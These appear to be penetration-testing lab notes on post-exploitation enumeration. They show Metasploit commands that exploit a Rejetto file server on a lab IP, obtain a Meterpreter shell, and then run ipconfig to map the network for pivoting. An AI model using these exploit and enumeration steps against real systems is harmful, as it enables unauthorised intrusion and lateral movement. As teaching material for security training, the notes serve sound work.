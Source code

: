 All of this information is important for various reasons. More specifically, it's important during the pivoting phase of post exploitation in that we are trying to identify whether the most important pieces of information that we're trying to identify are internal networks or whether we can identify other hosts that are part of that network that we can pivot to. And in the case of Windows Firewall, that can give us an idea of what we can and cannot do in regards to targeting specific ports. This is also incredibly important especially during the pivoting phase. So enumeration is setting up the stage for the other phases of post exploitation.

Target IP Address: 10.2.20.137

```
msfconsole
search rejetto
use 0
set RHOSTS 10.2.20.137
exploit
```

Now that we've obtained a Meterpreter session, we can open up a command shell session.

```
meterpreter > shell
```

The first piece of information is going to be our current IP address and information pertinent to the network adapter or the network interface card that's been configured on the target system.

```
ipconfig
```

`ipconfig` will tell us the current adapters connected to this system.

The Subnet Mask, which gives us an idea of the network range and the maximum amount of hosts that can be on this particular subnet.

We have the Default Gateway. The gateway is the system or the router that's responsible for routing all the traffic to the various hosts or devices that are on this particular subnet.

We can get addtional information regarding the current adapters.

```
ipconfig /all
```

We get the Mac address which can be used for if you're performing network pentesting attacks that involve a Mac address or trying to spoof a Mac address.

We can see that DHCP is enabled, which means that on this network, IP addresses are assigned automatically by the gateway or the device responsible for that. So if there is a DHCP server, then it's responsible for assigning IP addresses. This is very important, because it tells us that hosts or devices on this network do not have static IPs and are likely to change.

In the case of DHCP, it tells us when the Lease was obtained and when it expires. Whenever you connect to a DHCP-enabled network, you're provided with a Lease for a specific IP address. What's happened is the DHCP server has told this device that you obatained the Lease on the following date. It'll then expire on the following date. At that point, you will either be assigned another IP address on the network or or the subnet, or you can continue using this one if there aren't any confilicts.
